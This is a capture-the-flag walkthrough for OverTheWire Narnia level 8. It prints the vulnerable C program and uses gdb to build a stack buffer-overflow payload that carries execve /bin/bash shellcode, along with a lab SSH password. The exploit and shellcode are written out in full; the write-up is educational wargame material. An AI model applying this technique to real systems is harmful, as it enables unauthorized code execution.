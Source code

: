 # Level 8 → Level 9

## Solution
```
ssh narnia8@narnia.labs.overthewire.org -p 2226
```
```
1aBcDgPttG
```
```
cd /narnia ; ls -al
```
```
./narnia8
```

![](0.png)

![](1.png)


Let's look at the code:

```
cat narnia8.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
        printf("%s argument\n", argv[0]);

        return 0;
}
```

Let's look at the stack just after memset:
```
gdb ./narnia8
```
```
disas func
```

![](2.png)

```
b *0x080491a2
```
```
r $(perl -e 'print "A"x19')
```
```
x/40wx $sp
```

![](3.png)

* Yellow - `bok`
* Red - `blah`, contain the address of `argv[1]`
* Blue - `$bp` register
* Green - Return falue from the `func` to the `main`.

Now, let's take a look at argv[0]:

```
x/s 0xffffd7b0
```

![](4.png)

Let's note where the argvs are actually located in memory:

```
x/5s 0xffffd7b0
```

![](5.png)

looks familiar? This is because, in fact, the argvs go in right above the environment variables!

```
x/4s *((char **) environ)
```

![](6.png)

**Conclusion:**<br />
The formula for calculating the address of the variable argv[1] (if there is only one) is <br />
**`&argv[1] = &environ[0] - len(argv[0]) - 1`** where the `-1` is to include the NULL at the end of the string.<br />

We need a part of the string (more precisely, the 20th to 24th bytes) to contain the address of the string itself. Otherwise in the stack, the 20th byte will overwrite the address of the string and the program will no longer refer to its place in memory to continue inserting values into the stack.<br />

And so when we know the size of the string in `argv[1]`, we can easily calculate its position and insert it into the string itself.<br />

Since we want the string to overwrite the address back, then the length of the string should be 32 bytes (20 + 4 + 4 + 4).<br />

So her address is: **`argv[1] = ((char **)enviorn) - 32 - 1 = 0xffffd7c4 - 33 = 0xffffd7a3`**

So the input string can be something like:
```
r $(perl -e 'print "A"x20, "\xa3\xd7\xff\xff", "BBBB", "CCCC"')
```
```
x/40wx $sp
```

![](7.png)

```
b *0x080491e6
```
```
c
```
```
x/40wx $sp
```

![](8.png)


Okay, so far so good. But - we'd like to replace "CCCC" with the address of... of what?

Can we insert shellcode as argv[2] and use its address? We will take shellcode from previous challenges and try:

* shellcode (level1->level2): `\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80`
* argv[2] == shellcode, so len(argv[2]) == 33

* &argv[1] == ((char **)environ) - ((len(argv[1]) + 1) + (len(argv[2]) + 1)) == ((char **)environ) - (33 + 34) == 0xffffd7c4 - 67 == 0xffffd781

* &argv[2] == ((char **)environ) - (len(argv[2]) + 1) == &argv[1] + (len(argv[1]) + 1) == 0xffffd781 + 33 == 0xffffd7a2

So, let's try this:

from the begining:
```
gdb ./narnia8
```
```
b *0x080491a2
```
```
b *0x080491e6
```
```
r $(perl -e 'print "A"x20, "\x81\xd7\xff\xff", "BBBB", "\xa2\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```
```
x/40wx $sp
```

![](9.png)

```
c
```
```
x/40wx $sp
```

![](10.png)


```
x/6s *((char **)environ) - 67
```

![](11.png)

* `-67`: (len(argv[1]) + 1) + (len(argv[2]) + 1)
* `0xffffd781`: &argv[1]
* `0xffffd7a2`: &argv[2], the shellcode!

```
del 1
```
```
del 2
```
```
c
```

![](12.png)




## Password for the next level:
```

```
